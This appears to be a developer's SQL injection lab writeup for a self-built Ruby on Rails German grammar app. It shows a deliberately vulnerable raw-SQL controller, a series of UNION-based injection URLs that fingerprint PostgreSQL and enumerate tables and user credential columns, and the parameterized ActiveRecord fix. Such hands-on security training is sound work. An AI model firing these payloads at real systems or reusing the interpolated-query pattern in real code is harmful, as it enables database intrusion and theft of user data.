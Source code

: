 # SQL Injection Writeup: German Grammar App (Ruby on Rails)

**App Framework:** Ruby on Rails  
**Vulnerability:** SQL Injection in custom login logic  
**Status:** Patched  
**Purpose:** Hands-on AppSec practice and demonstration of secure coding principles

---

## 🧠 Overview

While developing a grammar-learning platform using Ruby on Rails, I created a page that displays German nouns and allows users to filter them by grammatical gender (masculine, feminine, or neuter) using a dropdown menu. For the purpose of understanding SQL injection vulnerabilities in a realistic setting, I temporarily implemented the filtering logic using raw SQL with direct string interpolation.

This writeup documents the vulnerable code, the URL-based injection used to exploit it, and the secure fix using ActiveRecord’s query interface.


---

## 🔍 Vulnerable Code (Before)

In this early version, I bypassed ActiveRecord’s protections and manually built a query:

```ruby
# 🚨 Vulnerable filter method (simulating raw SQL injection)
class NounViewerController < ApplicationController
  def index
    @gender_options = %w[masculine feminine neuter]
    @selected_gender = params[:gender]

    @nouns = Noun.find_by_sql(
      "SELECT GENDER, WORD, DEFINITION FROM nouns WHERE gender = '#{@selected_gender}'"
    )
  end
end
```

❗️This uses string interpolation to insert untrusted user input (params[:gender]) directly into a raw SQL query, bypassing ActiveRecord’s sanitization and creating a SQL injection risk.

## Exploitation  
Payload used (URL input):

```sql
/noun_viewer?gender='+OR+1=1--
```

This corresponds to the SQL payload:
```sql
gender = '' OR 1=1--
```
By injecting into the gender parameter via the URL, I was able to bypass the filter and return all nouns, regardless of gender. This confirmed that the input was being directly interpolated into a raw SQL query.


## How I tested it:

Injected the following payload into the `gender` parameter via the URL:

```sql
/noun_viewer?gender='+OR+1=1--
```

## 🔎 Result

After injecting the payload, the application no longer filtered nouns by the selected gender. Instead, it returned **all nouns from the database**, regardless of gender category. This confirmed that the SQL condition was bypassed and that user input was being directly executed as part of the query.


## Screenshot:

![SQLi Result](./screenshots/sqli-noun-gender-bypass.png)


## 🧨 Escalation: Enumerating the Database

After confirming the vulnerability through basic SQL injection, I escalated the attack to enumerate the database structure and extract sensitive data — simulating a real-world data breach scenario.

---

### 1. 🔎 Determining the Number of Columns

To craft a valid `UNION SELECT`, I needed to match the number of columns in the original query. I injected:

```sql
/noun_viewer?gender='+OR+1=1+UNION+SELECT+NULL,NULL,NULL--
```

Result: The page loaded without error, confirming the query had 3 columns.


### 2. 🧪 Identifying Data Types for UNION Injection

Next, I determined which columns could accept string values (to inject test strings or payloads). I used:

```sql
/noun_viewer?gender='+OR+1=1+UNION+SELECT+'test',NULL,NULL--
```

Result: The string "test" appeared on the page — confirming that the first column accepts text. This allowed me to use it to display exfiltrated values.

### 3. 🏷️ Fingerprinting the Database

To identify the database engine, I injected a version function:

```sql
/noun_viewer?gender='+OR+1=1+UNION+SELECT+version(),NULL,NULL--
```

Result: The output showed a version string indicating that the backend was PostGres.

### 4. 🗂️ Enumerating Table Names

I queried the information_schema.tables table to enumerate available tables:

```sql
/noun_viewer?gender='+OR+1=1+UNION+SELECT+table_name,NULL,NULL+FROM+information_schema.tables+ORDER+BY+1+DESC--
```

![SQLi Result](./screenshots/sqli-show-table-names.png)


Result: The app returned a list of tables, including:

- views

- users

- tables

- ...


### 5. 📦 Enumerating Columns in the users Table

Next, I extracted the column names from the users table to identify useful fields:
```sql
/noun_viewer?gender='+OR+1=1+UNION+SELECT+column_name,NULL,NULL+FROM+information_schema.columns+WHERE+ table_name='users'+ORDER+BY+1--
```

![SQLi Result](./screenshots/sqli-show-table-column-names.png)

Result: I discovered the following fields:

- email

- encrypted_password

⚠️ Note: All testing was performed in a local development environment on a self-built app. No real user data was accessed or exposed.


## Summary of Findings

- The application was vulnerable to classic UNION-based SQL injection
- I used controlled payloads to safely enumerate:
  - Column count and types
  - DBMS fingerprint
  - Table and column names
- This vulnerability could be exploited to extract sensitive user data such as usernames and password hashes





## 🛡️ Fixed Code (After)

The fix involved replacing raw SQL with ActiveRecord’s built-in .where() method, which uses parameterized queries. This safely escapes user input and prevents injection:
✅ Secure version using ActiveRecord query interface:
```ruby
class NounViewerController < ApplicationController
  def index
    @gender_options = %w[masculine feminine neuter]
    @selected_gender = params[:gender]
    @nouns = if @selected_gender.present?
              Noun.where(gender: @selected_gender)
             else
               []
             end
  end
end
```

This ensures:

User input is safely escaped

SQL injection attempts are neutralized

## Test Results After Fix

![SQLi Result](./screenshots/sqli-fixed-code-response.png)


Retested the same payload.

Query failed as expected.

No unexpected records returned.



## Lessons Learned

**Rails ActiveRecord provides excellent protection by default** — bypassing it opens you up to unnecessary risk.

**Raw SQL should only be used with parameter placeholders (?) or sanitized bindings.**

**Demonstrating vulnerabilities safely builds intuition and improves secure coding instincts.**



*This writeup is part of my ongoing security training. Full application source is private, but selected code snippets and security walkthroughs are available here for demonstration purposes.*
